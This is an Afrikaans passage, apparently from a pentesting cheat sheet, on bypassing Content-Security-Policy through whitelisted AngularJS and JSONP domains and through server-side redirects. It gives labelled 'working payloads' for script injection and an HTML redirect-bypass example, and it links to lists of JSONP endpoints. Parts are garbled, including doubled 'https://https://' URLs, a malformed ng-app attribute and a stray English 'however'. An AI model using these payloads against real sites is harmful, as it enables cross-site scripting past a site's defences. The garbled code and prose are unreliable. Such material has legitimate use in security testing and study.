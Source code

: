 ### AngularJS en gewhitelistde domein
```
Content-Security-Policy: script-src 'self' ajax.googleapis.com; object-src 'none' ;report-uri /Report-parsing-url;
```
'n CSP-beleid wat domeine vir skriplaai in 'n Angular JS-toepassing witlys, kan omseil word deur die aanroep van terugroepfunksies en sekere kwesbare klasse. Verdere inligting oor hierdie tegniek kan gevind word in 'n gedetailleerde gids beskikbaar op hierdie [git repository](https://github.com/cure53/XSSChallengeWiki/wiki/H5SC-Minichallenge-3:-%22Sh*t,-it's-CSP!%22).

Werkende payloads:
```html
<script src=//ajax.googleapis.com/ajax/services/feed/find?v=1.0%26callback=alert%26context=1337></script>
ng-app"ng-csp ng-click=$event.view.alert(1337)><script src=//ajax.googleapis.com/ajax/libs/angularjs/1.0.8/angular.js></script>

<!-- no longer working -->
<script src="https://www.googleapis.com/customsearch/v1?callback=alert(1)">
```
Ander JSONP arbitrêre uitvoerings eindpunte kan gevind word in [**hier**](https://github.com/zigoo0/JSONBee/blob/master/jsonp.txt) (sommige van hulle is verwyder of reggestel)

### Bypass deur Herleiding

Wat gebeur wanneer CSP bediener-kant herleiding teëkom? As die herleiding na 'n ander oorsprong lei wat nie toegelaat word nie, sal dit steeds misluk.

E however, volgens die beskrywing in [CSP spesifikasie 4.2.2.3. Paaie en Herleidings](https://www.w3.org/TR/CSP2/#source-list-paths-and-redirects), as die herleiding na 'n ander pad lei, kan dit die oorspronklike beperkings omseil.

Hier is 'n voorbeeld:
```html
<!DOCTYPE html>
<html>
<head>
<meta
http-equiv="Content-Security-Policy"
content="script-src http://localhost:5555 https://www.google.com/a/b/c/d" />
</head>
<body>
<div id="userContent">
<script src="https://https://www.google.com/test"></script>
<script src="https://https://www.google.com/a/test"></script>
<script src="http://localhost:5555/301"></script>
</div>
</body>
</html>
```
As CSP op `https://www.google.com/a/b/c/d` gestel is, sal beide `/test` en `/a/test` skripte deur CSP geblokkeer word.

Echter, die finale `http://localhost:5555/301` sal **op die bediener-kant herlei word na `https://www.google.com/complete/search?client=chrome&q=123&jsonp=alert(1)//`**. Aangesien dit 'n herleiding is, word die **pad nie oorweeg nie**, en die **skrip kan gelaai word**, wat die padbeperking omseil.
